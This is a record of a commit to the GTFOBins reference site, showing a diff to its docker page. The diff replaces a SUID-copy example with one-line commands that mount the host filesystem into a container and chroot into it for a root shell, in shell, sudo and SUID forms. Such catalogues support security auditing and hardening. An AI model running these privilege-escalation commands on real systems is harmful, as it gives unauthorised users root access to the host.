

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/docker.md, in a window 1280 px wide. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Simplify the docker example by using chroot
Also make it available for non-root users.

The previous SUID example had the problem that the loaders between host and
containers must match, for example, copying `sh` from alpine to debian doesn't
directly work.

```diff
--- a/_gtfobins/docker.md
+++ b/_gtfobins/docker.md
@@ -1,13 +1,14 @@
 ---
 description: |
-  Exploit the fact that Docker runs as root to create a SUID binary on the host using a container. This requires the user to be privileged enough to run docker, e.g. being in the `docker` group. Any other Docker Linux image should work, e.g., `debian`.
+  This requires the user to be privileged enough to run docker, i.e. being in the `docker` group or being `root`.
 functions:
+  shell:
+    - description: Any other Docker Linux image should work, e.g., `debian`. The resulting is a root shell.
+      code: docker run -v /:/mnt --rm -it alpine chroot /mnt sh
   sudo:
-    - code: |
-        sudo docker run --rm -v /home/$USER:/h_docs ubuntu \
-            sh -c 'cp /bin/sh /h_docs/ && chmod +s /h_docs/sh' && ~/sh -p
+    - description: Any other Docker Linux image should work, e.g., `debian`. The resulting is a root shell.
+      code: sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh
   suid:
-    - code: |
-        ./docker run --rm -v /home/$USER:/h_docs ubuntu \
-            sh -c 'cp /bin/sh /h_docs/ && chmod +s /h_docs/sh' && ~/sh -p
+    - description: Any other Docker Linux image should work, e.g., `debian`. The resulting is a root shell.
+      code: ./docker run -v /:/mnt --rm -it alpine chroot /mnt sh
 ---
```
